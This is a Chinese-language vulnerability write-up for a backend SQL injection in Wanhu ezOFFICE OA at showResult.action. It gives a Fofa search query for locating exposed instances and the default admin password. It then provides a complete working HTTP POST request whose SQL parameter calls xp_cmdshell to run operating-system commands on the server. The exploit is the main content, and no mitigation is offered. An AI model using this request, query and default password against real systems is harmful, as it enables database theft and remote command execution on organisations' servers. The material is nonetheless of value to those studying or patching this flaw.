 # 万户OA showResult.action 后台SQL注入漏洞

## 漏洞描述

万户OA showResult.action 存在SQL注入漏洞，攻击者通过漏洞可以获取数据库敏感信息

## 漏洞影响

<a-checkbox checked>万户OA</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="万户网络-ezOFFICE"</a-checkbox></br>

## 漏洞复现

产品页面

![img](../../../.vuepress/public/img/1631323798806-958050db-05f6-47ca-95b4-74487ee67a66-20220313175006932.png)

默认账号密码：admin/111111

发送请求包：

```python
POST /defaultroot/Graph!showResult.action HTTP/1.1 
Host: 
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/61.0.3163.100 Safari/537.36 
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded 
Content-Length: 69 
Origin: http://x.x.x.x 
Connection: close
Referer: http://x.x.x.x/defaultroot/Graph!runSql.action
Cookie: OASESSIONID=5AC1D44965A277C90D94B57DEDA82992; LocLan=zh_CN; JSESSIONID=5AC1D44965A277C90D94B57DEDA82992; OASESSIONID=5AC1D44965A277C90D94B57DEDA82992; ezofficeDomainAccount=whir; empLivingPhoto=; ezofficeUserName=dsfssaq; ezofficeUserPortal=; ezofficePortal135=1 
Upgrade-Insecure-Requests: 1

database=localDataSource&dataSQL=exec+master..xp_cmdshell+"ipconfig";
```

![img](../../../.vuepress/public/img/1631324055298-7959a3fb-b302-4926-bbfc-72107cbfdb62.png)